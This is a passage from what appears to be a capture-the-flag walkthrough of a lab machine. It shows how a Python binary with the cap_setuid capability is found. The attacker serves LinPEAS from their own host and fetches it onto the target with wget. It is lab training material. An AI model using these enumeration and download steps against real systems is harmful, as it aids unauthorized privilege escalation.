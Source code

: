 

    nathan@cap:/var/www.md$ ls -l app.py 
    -rw-r--r-- 1 nathan nathan 4088 May 23 16:20 app.py



Or on Python:



    nathan@cap:/var/www.md$ ls -l /usr/bin/python3
    lrwxrwxrwx 1 root root 9 Mar 13  2020 /usr/bin/python3 -> python3.8
    nathan@cap:/var/www.md$ ls -l /usr/bin/python3.8
    -rwxr-xr-x 1 root root 5486384 Jan 27 15:41 /usr/bin/python3.8



One way to give a program some privileges without having it completely
get the power of root is to use [Linux
capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.md).
`Python` has been assigned two:



    nathan@cap:/var/www.md$ getcap /usr/bin/python3.8
    /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip



#### LinPEAS

If I didn't see the issues in the web code, a script like
[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
would also identify the capabilities. I'll clone a copy of
[PEASS-ng](https://github.com/carlospolop/PEASS-ng) to my VM, and start
a Python webserver in the directory with `linpeas.sh`:



    oxdf@parrot$ cd /opt/PEASS-ng/linPEAS/
    oxdf@parrot$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...



I'll request it with `wget`:



    nathan@cap:/tmp$ wget 10.10.14.5/linpeas.sh                                                                                             
    --2021-10-02 10:33:19--  http://10.10.14.5/linpeas.sh                                                                                   
    Connecting to 10.10.14.5:80... connected.                                                                                               
    HTTP request sent, awaiting response... 200 OK
    Length: 470149 (459K) [text/x-sh]
    Saving to: ‘linpeas.sh’

    linpeas.sh                        100%[=============================================================>] 459.13K  1.79MB/s    in 0.3s    

    2021-10-02 10:33:19 (1.79 MB/s) - ‘linpeas.sh’ saved [470149/470149]


